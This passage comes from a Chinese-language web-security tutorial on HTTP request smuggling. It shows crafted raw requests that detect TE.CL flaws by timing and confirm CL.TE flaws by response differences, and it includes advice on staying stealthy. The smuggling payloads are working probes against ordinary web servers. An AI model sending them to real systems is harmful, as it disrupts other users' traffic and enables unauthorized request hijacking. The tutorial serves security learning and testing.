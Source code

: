 **<a class="reference-link" name="%E5%88%A9%E7%94%A8%E8%AE%A1%E6%97%B6%E6%8A%80%E6%9C%AF%E5%8F%91%E7%8E%B0TE.CL%E6%BC%8F%E6%B4%9E"></a>利用计时技术发现TE.CL漏洞**

这种漏洞也是，如果正文是被空行分隔的两部分则也会导致仅发出不完整的请求导致后端服务器在利用CL头接收请求包时等待，直到超时，则可以证明存在TE.CL漏洞，例如

```
POST / HTTP/1.1
Host: vulnerable-website.com
Transfer-Encoding: chunked
Content-Length: 6

0

X

```

值得注意的是如果应用程序可能受到CL.TE攻击，那么针对TE.CL漏洞的利用计时技术的测试可能会干扰其他应用程序用户。因此，要保持隐蔽并最大程度地减少超时现象，应该首先使用CL.TE测试，只有在第一次测试不成功时才继续进行TE.CL测试。

### <a class="reference-link" name="%E5%88%A9%E7%94%A8%E5%93%8D%E5%BA%94%E5%B7%AE%E5%BC%82%E7%A1%AE%E8%AE%A4HTTP%E8%AF%B7%E6%B1%82%E8%B5%B0%E7%A7%81%E6%BC%8F%E6%B4%9E"></a>利用响应差异确认HTTP请求走私漏洞

发送两次请求，第一个是魔改的请求包，第二个是正常的请求，这样就能用第一个请求干扰后端服务器对第二个请求包的处理

**<a class="reference-link" name="%E5%88%A9%E7%94%A8%E5%93%8D%E5%BA%94%E5%B7%AE%E5%BC%82%E7%A1%AE%E8%AE%A4CL.TE%E6%BC%8F%E6%B4%9E"></a>利用响应差异确认CL.TE漏洞**

因为是CL.TE，所以在第一个请求包结束以后加入一个空行再开始编写第二个请求包，像这样

```
POST /search HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 49
Transfer-Encoding: chunked

e
q=smuggling&amp;x=
0

GET /404 HTTP/1.1
Foo: x

```

第一次发送这个请求包会因为后端服务器利用TE头处理而将第二个请求包作为单独的请求包处理，但是第二个请求包又不完整，所以会等待后续的请求包，当第二次发送请求后会将上一次的剩余的请求头与这一次请求包合并起来处理，此时会接收到异常的响应，就能判断存在CL.TE漏洞，像这样

```
GET /404 HTTP/1.1
Foo: xPOST /search HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 11

q=smuggling

```
